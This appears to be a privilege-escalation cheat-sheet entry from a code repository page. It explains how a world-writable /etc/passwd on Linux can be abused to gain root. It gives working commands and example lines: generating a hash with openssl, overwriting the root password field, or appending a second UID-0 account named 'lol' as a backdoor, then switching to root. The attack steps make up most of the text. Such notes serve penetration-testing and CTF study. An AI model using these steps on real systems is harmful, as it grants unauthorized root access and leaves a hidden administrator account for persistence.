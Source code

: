 - - -
### Writable /etc/passwd :

The /etc/passwd file contains information about user accounts.
It is world-readable, but usually only writable by the root user.
Historically, the /etc/passwd file contained user password hashes,
and some versions of Linux will still allow password hashes to be stored there.

##### Check permissions :

```sh
ls -l /etc/passwd
```

#### Generate a new password hash :

```sh
openssl passwd <newpasswordhere>
```

Now there are two ways to do it :

1.  edit the root user's line and replace the " :**x**: " with your password hash. 

```
# For example : 

root:$6$jjIko8K0cUhqDwpM$grrIX6w76pr.jwn9u410jNmP8nOaYikxPG5uXzplvqghu9YvLZB7qJVazV1.zvPPDI8R9s/oKd9..TOTad6zN.:0:0:root:/root:/bin/bash
```

now save and exit

```sh
su root
```

2.  Copy the root user's line and paste it t the bottom as **newroot** user with your password hash.

```
# For example : 

lol:$6$jjIko8K0cUhqDwpM$grrIX6w76pr.jwn9u410jNmP8nOaYikxPG5uXzplvqghu9YvLZB7qJVazV1.zvPPDI8R9s/oKd9..TOTad6zN.:0:0:root:/root:/bin/bash
```

save and exit

```sh
su root
```

- - -

